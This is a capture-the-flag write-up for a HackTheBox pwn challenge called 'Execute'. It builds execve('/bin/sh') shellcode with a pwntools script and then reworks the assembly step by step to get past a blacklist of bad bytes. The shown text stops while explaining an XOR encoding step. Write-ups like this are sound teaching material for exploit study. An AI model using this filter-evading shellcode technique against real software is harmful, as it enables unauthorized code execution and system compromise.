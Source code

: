 # Execute
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a76f9eac-e18c-4903-866d-87de83421845)


## Lessons Learned:
1. Stack-Based Exploitation.
2. Input bug which leads to direct code execution.
3. Implement ret2shellcode attack.
4. Craft custom shellcode to bypass bad bytes.

## DESCRIPTION:

## STEPS:
1. In this challenge, we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f25e6b28-c6a8-437f-9eeb-a910233a9085)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2419960c-7a0c-408f-b15a-22e30567fc39)


2. Interesting! NX is disabled here. Hence it should be easier for us to gain RCE.
3. Upon reviewing the source code, our objective is very straightforward.
4. There is no buffer overflow, we just need to send our shellcode and it shall executed onto the stack.
5. BUT, the problem is there are several filters to our shellcode, which require us to craft our own shellcode.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/30e29a82-0d47-489d-82ab-a37bc286363b)

6. The easiest way to check which bytes is filtered, simply craft basic shellcode then compare which byte match the pattern.

> SCRIPT

```py
from pwn import *

exe = './execute'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = process(exe)

blacklist = b"\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67"
        
shellcode = '''    
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 0x3b
syscall
'''

sc = asm(shellcode)
for byte in sc:
    if byte in blacklist:
        print(f'BAD BYTE --> 0x{byte:02x}')
        print(f'ASCII --> {chr(byte)}')

sh.interactive()
```

#### NOTES:

```
0x68732f6e69622f is a hex representation of strings "/bin/sh".

>>> from pwn import *
>>> print(p64(0x68732f6e69622f))
b'/bin/sh\x00'
>>> 
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fed4fc6d-add2-4362-877b-0674e64ed767)


7. Got several bad bytes and it seems filtered for `/bin/sh` strings, NULL byte, and 59 or execve call.
8. Let's start by manipulate the 59 value. Actually we can just use 0x3a rather than 0x3b then add 1 byte to al (8 bit).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/052f7d17-5df6-40d8-bc3e-2dee49ba34c8)


> UPDATED SHELLCODE

```asm
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
push 0x3a
pop rax
add al, 0x1
syscall
```

#### NOTES:

```asm
To obtain the correct asm instructions is using trial and error. If you pass:

mov rax, 0x3a
add al, 0x1

It shall bypassed the 59 filter, but introduced another bad bytes.
```


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/abd28ea7-6743-4bba-bfeb-af7a6a769908)


9. Great! Now let's try to bypass the NULL byte first.
10. Using the same method as previous to get rid of another bad byte introduced. I used `push` instruction to push the value first onto the stack pointer.

```asm
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp

push 0x0
pop rsi
push 0x0
pop rdx

push 0x3a
pop rax
add al, 0x1
syscall
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6c5bf020-824b-42e0-bf19-885c48574d10)


11. Awesome! Just like what we're expect it to be. All the null bytes have been cleared.
12. The idea is still the same. But it's quite tricky.
13. I used XOR method to hide the `/bin/sh` strings.

### IDEA

```MD
1. Identify which key is suitable for 0x68732f6e69622f, that does not gave any null bad bytes.
2. Logic to hide the strings using XOR.
3. XOR it back to obtain the original strings and stored it onto the stack.

- So the idea is to push the KEY we identified previously onto the stack.

mov rax, KEY
push rax

## [+] At this point, RSP stored the our KEY.

- Then we perform the XOR operation of the key with BINSH strings, so we can obtain the XORed data.

mov rax, KEY ^ BINSH strings.

## [+] At this point RAX stored the XORed strings

xor [rsp], rax

## [+] At this point KEY stored on the stack is XORed with the previously XORed strings.

This operation resulting to "/bin/sh" strings.
```
